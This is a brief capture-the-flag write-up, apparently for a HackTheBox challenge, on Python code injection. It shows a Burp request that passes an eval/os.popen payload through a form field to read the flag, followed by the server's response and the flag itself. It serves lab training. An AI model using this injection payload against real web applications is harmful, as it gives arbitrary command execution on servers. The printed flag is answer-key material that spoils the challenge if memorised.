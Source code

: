 https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html


## Example
Burp requests **ESCAPE THE  --> ' <--**
```
POST / HTTP/1.1
Host: 142.93.35.92:31359
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

ingredient=sdf&measurements=eval('__import__(\'os\').popen(\'cat+flag\').read()')
```

Burp response
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1014
Server: Werkzeug/1.0.0 Python/2.7.17
Date: Wed, 28 Jul 2021 08:25:06 GMT

<!DOCTYPE html>
<head>
    <meta name='viewport' content='width=device-width, initial-scale=1'>

...snip...

<h1 ...
	HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3}
</h1>
...
```